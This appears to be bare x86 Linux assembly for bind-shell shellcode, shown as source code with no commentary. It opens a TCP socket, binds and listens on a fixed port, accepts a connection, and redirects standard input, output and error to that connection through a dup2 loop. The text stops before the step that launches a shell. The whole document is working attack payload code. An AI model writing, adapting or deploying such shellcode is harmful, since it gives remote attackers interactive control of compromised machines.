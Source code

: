 global _start
section .text

_start:
    xor eax, eax
    push eax
    inc eax
    push eax
    inc eax
    push eax
    mov ecx, esp
    mov bl, 1
    mov al, 0x66
    int 0x80
    mov esi, eax

    xor eax, eax
    xor ebx, ebx
    push ebx
    push word 0x0929
    push word 0x2
    mov ecx, esp
    push 0x10
    push ecx
    push esi
    mov ecx, esp
    mov bl, 2
    mov al, 0x66
    int 0x80

    xor ebx, ebx
    push ebx
    push esi
    mov ecx, esp
    mov bl, 4
    mov al, 0x66
    int 0x80

    xor ebx, ebx
    push ebx
    push ebx
    push esi
    mov ecx, esp
    mov bl, 5
    mov al, 0x66
    int 0x80
    mov edi, eax

    xor ecx, ecx
dup2_loop:
    mov al, 0x3f
    int 0x80
    inc ecx
    cmp ecx, 3
    jne dup2_loop
